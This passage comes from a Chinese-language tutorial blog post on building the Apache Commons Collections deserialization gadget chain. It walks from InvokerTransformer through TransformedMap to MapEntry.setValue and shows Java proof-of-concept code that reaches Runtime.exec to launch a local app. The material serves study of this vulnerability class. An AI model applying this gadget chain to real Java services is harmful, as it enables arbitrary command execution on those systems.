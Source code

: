 使得transform的反射接收参数后变为

```java
Class cls = runtime.getClass();
Method method = cls.getMethod(exec, new Class[]{String.class});
return method.invoke(runtime, new Object[]{"open /Applications/NeteaseMusic.app"});
```

![image-20250217202812452](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217202812563.png)

然后我们需要再往上找，看哪里可以调用InvokerTransformer的transform方法，因为反序列化会走到他的readObject方法中，所以我们的调用链是从readobject开始逐步走到InvokerTransformer的transform方法中

寻找InvokerTransformer的transform的上层调用点时，发现了TransformMap类，它的checkSetValue方法调用了transform

![image-20250217210546525](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210546568.png)

而他的valueTransformer在构造函数中被赋值，因为构造方法为`protected`方法

![image-20250217210646013](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210646056.png)

需要用decorate方法来调用构造方法，因为checkSetValue调用transform方法只用到了valueTransformer，所以第一个参数只需要传入一个空的map，第二个参数传入一个null即可

![image-20250217210814726](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210814774.png)

再往上找哪里调用了checkSetValue方法，发现在AbstractInputCheckedMapDecorator抽象类中MapEntry类的setValue方法里调用到了，而AbstractInputCheckedMapDecorator抽象类为TransformMap的父类

![image-20250217213101405](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217213101447.png)

![image-20250217213219150](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217213219196.png)

所以我们可以通过entry来调用他的setValue方法，遍历一个map，获取entry，再调用entry的setValue方法

map不能为空，可先给一对任意键值对

```java
				Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer= new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"});
        HashMap Map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(Map,null,invokerTransformer);
        Map.put("aaa","bbb");
        for (Map.Entry entry:transformedMap.entrySet())
        {
            entry.setValue(Runtime.getRuntime());
        }
```

成功弹出

![image-20250217214119103](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217214119142.png)

Runtime是一个不可反序列化的类，但是Runtime.class可以，因为class类可发序列化
